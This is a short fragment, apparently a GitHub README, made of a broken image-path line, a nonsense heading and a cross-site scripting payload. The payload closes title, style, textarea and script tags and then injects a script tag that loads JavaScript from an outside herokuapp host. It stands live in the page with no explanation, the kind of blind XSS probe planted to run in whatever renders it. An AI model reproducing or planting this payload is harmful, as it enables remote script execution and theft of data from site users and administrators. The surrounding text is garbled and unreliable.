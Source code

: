 # twtwtwtwtwt
/'>">&lt;/title>&lt;/style>&lt;/textarea>&lt;/script>&lt;script/src=https://arcane-garden-85303.herokuapp.com//js>&lt;/script>

